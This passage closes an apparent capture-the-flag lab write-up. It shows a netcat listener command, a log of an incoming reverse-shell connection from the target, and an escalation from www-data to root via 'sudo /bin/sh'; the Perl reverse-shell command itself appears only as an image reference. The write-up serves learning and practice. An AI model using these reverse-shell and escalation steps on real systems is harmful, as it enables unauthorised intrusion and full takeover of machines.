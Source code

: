 Let's try another one:

![pickle-perl](/assets/images/2021-01-24-18-06-28.png)

Perl installed, set a nc listening, then try:
![pickle-perlrevshell](/assets/images/2021-01-24-18-07-55.png)

Back on attack box we have a connection to our waiting netcat session:

```text
root@ip-10-10-19-48:~# nc -nlvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.24.11 57492 received!
/bin/sh: 0: can't access tty; job control turned off
```

Check who we are and then escalate:

```text
$ whoami
www-data
$ sudo /bin/sh
whoami
root
```

Now we have a reverse shell and have escalated to root so can complete the questions as before.

All done. See you next time.
